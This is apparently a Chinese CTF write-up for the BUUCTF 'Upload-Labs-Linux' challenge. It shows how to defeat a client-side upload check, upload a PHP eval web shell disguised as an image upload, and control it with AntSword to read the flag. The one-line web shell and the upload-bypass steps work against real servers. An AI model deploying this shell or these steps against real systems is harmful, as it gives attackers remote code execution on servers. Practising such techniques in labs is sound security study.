 ```yaml
---
title: CTF：Upload-Labs-Linux
date: 2022-10-10 08:52:48
categories: [linux, fileupload]
cover: /img/Upload-Labs-Linux/20221010085420.png
tags:
- ctf
- buuctf
- antsword
---
```

# 题目预览：
![](/img/Upload-Labs-Linux/20221010085420.png)  
# 解决方法
1. 开控制台
2. 关闭javascript
   > 设置-偏好设置-调试程序
   删除`onsubmit="return.checkFile()"`
3. 新建一个文件里面写入`<?php @eval($_POST['123']);?>`
4. 后缀名改为php上传到网站，显示出图片后右键复制链接。
5. 打开antsword，add一个url地址为图片链接，密码为123，加密base64.
6. 点击链接就能发现根目录有个flag文件了。